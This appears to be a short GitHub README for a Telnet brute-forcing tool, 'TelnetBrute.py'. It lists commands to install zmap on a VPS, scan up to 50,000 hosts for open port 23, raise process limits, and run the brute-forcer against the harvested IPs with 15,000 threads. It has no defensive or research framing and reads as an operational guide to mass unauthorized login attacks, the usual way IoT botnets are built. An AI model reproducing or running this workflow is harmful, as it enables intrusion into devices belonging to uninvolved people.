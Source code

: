 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p23 -o mfu.txt -N 50000 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999; ulimit -u 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



